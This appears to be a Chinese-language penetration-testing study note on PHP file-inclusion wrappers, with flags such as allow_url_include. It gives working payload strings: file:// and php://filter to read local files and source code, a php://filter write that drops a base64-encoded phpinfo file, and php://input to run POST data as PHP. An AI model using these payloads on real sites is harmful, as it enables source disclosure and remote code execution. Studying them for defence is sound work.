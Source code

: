 #### file://

allow_url_fopen ：off/on

allow_url_include：off/on



file协议读取d盘下123.txt

```
file:///d:/123.txt
```

![image-20240424203533450](D:\Infiltration\笔记\note\图片\image-20240424203533450.png)

#### php://filter

读取源代码并进行base64编码输出，不然会直接当做php代码执行就看不到源代码内容了。

allow_url_fopen ：off/on

allow_url_include：off/on



filter协议读取d盘下的123.txt并用base64编码

```
php://filter/read=convert.base64-encode/resource=d:/123.txt
```

![image-20240424203905599](D:\Infiltration\笔记\note\图片\image-20240424203905599.png)

再用解码工具解码还原

![image-20240424204401994](D:\Infiltration\笔记\note\图片\image-20240424204401994.png)



文件写入phpinfo.php

```
php://filter/write=convert.base64-decode/resource=phpinfo.php&txt=PD9waHAgcGhwaW5mbygpOyA/Pg==
```

![image-20240425105339206](D:\Infiltration\笔记\note\图片\image-20240425105339206.png)

写入成功

![image-20240425105420215](D:\Infiltration\笔记\note\图片\image-20240425105420215.png)

#### php://input

可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行

allow_url_fopen ：off/on

allow_url_include：on


